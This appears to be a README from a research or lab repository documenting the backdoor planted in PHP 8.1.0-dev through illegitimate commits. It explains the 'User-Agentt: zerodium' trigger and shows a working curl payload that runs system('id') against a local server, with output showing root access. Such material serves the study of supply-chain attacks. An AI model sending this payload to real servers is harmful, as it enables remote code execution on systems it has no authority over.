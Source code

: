 # PHP 8.1.0-dev backdoor
- **Type**: hidden command, hardcoded credentials
- **Affected versions**: 8.1.0-dev (illegitimate commits)


## Backdoor
Upon receiving an HTTP request with a `"User-Agentt"` header field set to `"zerodium<CMD>"`, where
`<CMD>` is arbitrary PHP code, the `sapi/cli/php` server will execute that PHP code.


## Triggering the backdoor
First, we need to start up the HTTP server (e.g., with the _backdoored_ variant):
```console
$ ./backdoored/sapi/cli/php -S 127.0.0.1:8080 -t ./www
```
In a separate terminal, we can trigger the backdoor via a simple HTTP request:
```console
$ curl -v -H "User-Agentt: zerodiumsystem('id')" http://localhost:8080
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* connect to ::1 port 8080 from ::1 port 35680 failed: Connection refused
*   Trying 127.0.0.1:8080...
* Connected to localhost (127.0.0.1) port 8080
> GET / HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
> User-Agentt: zerodiumsystem('id');
>
< HTTP/1.1 200 OK
< Host: localhost:8080
< Date: Thu, 12 Dec 2024 09:24:16 GMT
< Connection: close
< X-Powered-By: PHP/8.1.0-dev
< Content-type: text/html; charset=UTF-8
<
uid=0(root) gid=0(root) groups=0(root)
* Closing connection
```


## Reference
<https://doi.org/10.1145/3577923.3583657>
